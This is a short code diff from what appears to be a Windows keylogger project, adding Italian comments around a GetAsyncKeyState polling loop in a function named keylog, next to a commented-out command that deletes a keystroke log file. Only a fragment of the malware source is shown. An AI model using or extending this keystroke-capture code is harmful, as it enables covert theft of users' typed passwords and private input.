

2.4

diff --git a/main.cpp b/main.cpp
@@ -147,7 +147,10 @@ void keylog(void) //Key logger
                 //system("del %USERPROFILE%\\AppData\\Roaming\\Logs\\log.txt");
                 count = 0;
             }
-            if (GetAsyncKeyState(c) == -32767) //https://docs.microsoft.com/it-it/search/?terms=GetAsyncKeyState&scope=Azure
+            //La funzione interroga lo stato corrente dei tasti della tastiera (al momento della chiamata).
+            //GetAsyncKeyState è equivalente al 100 % della funzione API di Windows con lo stesso nome.
+            //http: //msdn.microsoft.com/en-us/library/windows/desktop/ms646293(v=vs.85).aspx
+            if (GetAsyncKeyState(c) == -32767)
             {
                 count++; //contatore caratteri
 
